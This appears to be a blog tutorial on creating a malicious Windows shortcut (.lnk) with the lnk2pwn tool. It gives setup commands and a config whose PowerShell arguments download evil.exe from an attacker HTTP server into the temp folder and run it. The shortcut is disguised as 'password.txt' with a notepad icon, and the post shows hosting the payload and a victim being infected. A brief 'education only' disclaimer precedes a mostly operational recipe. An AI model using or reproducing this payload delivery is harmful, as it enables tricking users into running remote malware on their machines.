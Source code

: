 ```yaml
---
title: "Create malicious Shortcut .LNK"
date: "2020-10-03"
layout: single
tags:
- Malicious
categories:
- Blog-post
---
```


Hey, everyone. Let's create some fileless malware using shortcut (.lnk). 

Don't do bad things haa, Allah marah! This is for education and research purpose only.

## Malicious Shortcut(.lnk) Generator

So, a script name [Lnk2Pwn](https://github.com/tommelo/lnk2pwn) made by Tommello will help us generate malicious shortcut .lnk

For installation, lnk2pwn requires **python2.7** and **wine** to create a Windows shortcut:

    sudo apt-get install python2.7
    sudo apt-get install wine

You can get the lastest version by clonning this repository:

    git clone https://github.com/tommelo/lnk2pwn.git

In lnk2pwn directory, edit config.json. The project contains a template file called config.json that defines the attributes of the .lnk file:

    {
        "shortcut": {
            "target_path": "C:\\Windows\\System32\\cmd.exe",
            "working_dir": "C:\\Windows\\System32",
            "arguments": "/c powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.83.128:8000/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"",
            "icon_path": "C:\\Windows\\System32\\notepad.exe",
            "icon_index": null,
            "window_style": "MINIMIZED",
            "description": "Password",
            "fake_extension": ".txt",
            "file_name_prefix": "password"
        },
    
        "elevated_uac": {
            "file_name": "uac_bypass.vbs",
            "cmd": "cmd.exe"
        }
    }

So, basically the `arguments` part will execute Powershell (PS) command that tell PS to download `evil.exe` and put the `evil.exe` into temp (%temp%) folder. After semicolon, we tell the PS to start/execute our `evil.exe`.

Now, run this line to generate our malicious .lnk:

    python lnk2pwn.py -c config.json -o [destination]

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/1.PNG)

Our lnk file now has been generated. Let's put this malicious .lnk file into our target machine.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/2.PNG)

Looks legit right?

## Open our HTTP server
Setup our HTTP server so that evil.exe can be download from HTTP link we give in our PS line (`http://192.168.83.128:8000/evil.exe`)

    python -m SimpleHTTPServer

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.PNG)

## Pwned by a Shortcut

So, if a user click the `password.txt`(.lnk), they will be infected. Let's wait for a couple of seconds for our evil.exe to be downloaded. And Hooray 🎉, our `evil.exe` is executed!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.gif)
